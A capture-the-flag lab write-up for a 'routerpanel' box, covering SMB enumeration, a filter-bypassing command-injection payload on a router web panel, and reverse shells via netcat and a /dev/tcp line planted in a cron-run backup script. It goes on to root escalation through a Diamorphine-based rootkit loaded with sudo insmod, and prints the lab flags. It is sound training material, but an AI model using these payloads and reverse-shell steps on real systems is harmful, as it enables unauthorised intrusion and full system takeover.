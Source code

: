 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | SSH |
| 80 | HTTP |
| 139 | SMB |
| 445 | SMB |



# RECONNAISSANCE
---

We got anonymous login enabled at `smb`, let's check it out:


```
smbclient -L \\\\10.10.214.108\\ -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Anonymous login successful

	Sharename Type Comment
	--------- ---- -------
	public Disk
	IPC$ IPC IPC Service (Samba 4.15.13-Ubuntu)
SMB1 disabled -- no workgroup available
```

As we can see, we got a `public` share, let's take a look:

![Pasted image 20250423162152.png](../../IMAGES/Pasted%20image%2020250423162152.png)

We got a file, let's get it and view the contents:

![Pasted image 20250423163005.png](../../IMAGES/Pasted%20image%2020250423163005.png)

We got an endpoint, let's proceed with the web application then:

![Pasted image 20250423163046.png](../../IMAGES/Pasted%20image%2020250423163046.png)

Nothing weird in here, let's go to the specified route:

```
http://10.10.214.108/myrouterpanel/
```

We can see this:

![Pasted image 20250423163143.png](../../IMAGES/Pasted%20image%2020250423163143.png)

We can test some basic stuff, for example, let's try a simple ping to `127.0.0.1` to check the behavior:

![Pasted image 20250423163528.png](../../IMAGES/Pasted%20image%2020250423163528.png)


Let's begin exploitation


# EXPLOITATION
---

As we can see, the ping goes through, based on this, we can try some command injection payloads, let's use a basic one to check the behavior:

![Pasted image 20250423163619.png](../../IMAGES/Pasted%20image%2020250423163619.png)

There seems to be some blacklist surveilling which characters we put in the `ip`, we can try modifying the payloads until we get an advanced one, let's refer to our command injection notes, for example, here are a list of characters that may be helpful:

```bash
%3b # URL-encoded ; (semicolon)
%26 # URL-encoded & (ampersand)
%7c # URL-encoded | (pipe)
%0a # URL-encoded newline (\n)
%09 # URL-encoded tab (space bypass)
%20 # URL-encoded space
+ # Often treated as a space in form data
${IFS} # Internal Field Separator (space replacement)
```

I tried using a payload from a previous machine on `HackTheBox`:

```bash
ip=8.8.8.8%0Abash%09-c%09"id"%0A&submit=
```

![Pasted image 20250423164508.png](../../IMAGES/Pasted%20image%2020250423164508.png)

There we go, it worked, let's craft a reverse shell:

```bash
ip=8.8.8.8%0Abash%09-c%09"nc -c /bin/sh 10.6.34.159 9001"%0A&submit=
```


![Pasted image 20250423164854.png](../../IMAGES/Pasted%20image%2020250423164854.png)

If we check our listener:

![Pasted image 20250423164905.png](../../IMAGES/Pasted%20image%2020250423164905.png)

There we go, we got our connection, let's proceed with privilege escalation.


# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250423165109.png](../../IMAGES/Pasted%20image%2020250423165109.png)

After using linpeas, I found there is a `/usr/share/backups` directory owned by `www-data` with the group `athena`, let's take a look:

![Pasted image 20250423165916.png](../../IMAGES/Pasted%20image%2020250423165916.png)

We got a `backup.sh` file, let's look at the contents:

```sh
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```

The script does the following:

1. Creates a backup directory at`~/backup` (likely`/home/www-data/backup` since it's owned by`www-data`).
 
2. Copies **all files** from`/home/athena/notes/*` into the backup directory.
 
3. Zips the backup into`notes_backup.zip`.
 
4. Deletes all`.txt` and`.sh` files in`/home/athena/backup/`.
 
5. Prints a completion message.

But none of this is relevant, we know that `athena` may be running this as a cronjob, we can modify the contents of the file to embed a reverse shell:

```bash
# Add reverse shell payload
bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1' &
```

If we start our listener a wait a little bit:

![Pasted image 20250423170454.png](../../IMAGES/Pasted%20image%2020250423170454.png)

We need to stabilize our shell again:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

Let's check our sudo privileges:

![Pasted image 20250423170829.png](../../IMAGES/Pasted%20image%2020250423170829.png)

We can run something called `venom.ko`, let's have more info of it, we can do:

```
athena@routerpanel:/$ modinfo /mnt/.../secret/venom.ko
modinfo /mnt/.../secret/venom.ko
filename: /mnt/.../secret/venom.ko
description: LKM rootkit
author: m0nad
license: Dual BSD/GPL
srcversion: 93A81462832D4CF52F916D7
depends:
retpoline: Y
name: venom
vermagic: 5.15.0-69-generic SMP mod_unload modversions
```

As we can see, this is a rootkit written by `m0nad`, let's use GitHub:

![Pasted image 20250423171008.png](../../IMAGES/Pasted%20image%2020250423171008.png)


This rootkit refers to something called `Diamorphine`, let's check the repo:

![Pasted image 20250423171043.png](../../IMAGES/Pasted%20image%2020250423171043.png)

There we go, we got our way to get into root, since we need to send a `signal 64` to become root, we can do this:

```
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sleep 10 & # This will show us the pid
kill -64 2865
```

![Pasted image 20250423171951.png](../../IMAGES/Pasted%20image%2020250423171951.png)

If we check our id, it doesn't seem to work, this is because the signal has been modified to `57` instead of `64` on this rootkit, we can now do it again:

```
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sleep 10 & # This will show us the pid
kill -57 pid
```

![Pasted image 20250423174845.png](../../IMAGES/Pasted%20image%2020250423174845.png)

As seen, we are root:

```
athena@routerpanel:/$ cat /root/root.txt
aecd4a3497cd2ec4bc71a2315030bd48
```

```
athena@routerpanel:/$ cat /home/athena/user.txt
857c4a4fbac638afb6c7ee45eb3e1a28
```

![Pasted image 20250423175116.png](../../IMAGES/Pasted%20image%2020250423175116.png)

